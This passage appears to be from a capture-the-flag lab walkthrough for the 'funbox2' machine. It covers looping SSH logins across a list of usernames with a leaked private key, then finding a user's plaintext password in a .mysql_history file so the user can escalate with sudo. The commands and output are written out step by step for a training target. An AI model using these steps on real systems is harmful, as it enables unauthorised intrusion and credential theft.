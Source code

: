 -----END RSA PRIVATE KEY-----  

Set 0600 (rw only for file owner) permissions on id_rsa so that ssh can use it  
`chmod 0600 id_rsa`

Generated a file named users.txt containing a list of all the zip file names without the extension, this way I essentially have a list of usernames:  
`for i in $(ls *.zip.txt); do basename $i ".zip.txt" >>users.txt; done;`

Looped through each username trying to SSH into the target machine using the id_rsa identity file:  
`for i in $(cat users.txt); do ssh $i@10.0.3.12 -i id_rsa; done;`
>Connection closed by 10.0.3.12 port 22  
Connection closed by 10.0.3.12 port 22  
[...]  
Connection closed by 10.0.3.12 port 22  
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86\_64)  
>  
 \* Documentation:  https://help.ubuntu.com  
 \* Management:     https://landscape.canonical.com  
 \* Support:        https://ubuntu.com/advantage  
>  
  System information as of Thu Oct 14 19:14:28 UTC 2021  
>  
  System load:  0.08              Processes:             102  
  Usage of /:   94.9% of 4.37GB   Users logged in:       0  
  Memory usage: 39%               IP address for enp0s3: 10.0.3.12  
  Swap usage:   0%  
>  
  => / is using 94.9% of 4.37GB  
>  
>  
0 packages can be updated.  
0 updates are security updates.  
>  
>  
Last login: Sat Jul 25 12:25:33 2020 from 192.168.178.143  
tom@funbox2:~$   

Got signed in as tom  

## Privilege Escalation
tom is a member of the sudo group but we need tom's password to run sudo  
`id`
>uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),**27(sudo)**,30(dip),46(plugdev),108(lxd)  

Found credentials inside of the .mysql_history file in tom's home directory  
`cat .mysql_history`
>\_HiStOrY\_V2\_  
show\040databases;  
quit  
create\040database\040'support';  
create\040database\040support;  
use\040support  
create\040table\040users;  
show\040tables  
;  
select\040\*\040from\040support  
;  
show\040tables;  
select\040\*\040from\040support;  
insert\040into\040support\040(**tom**,\040**xx11yy22!**);  
quit  
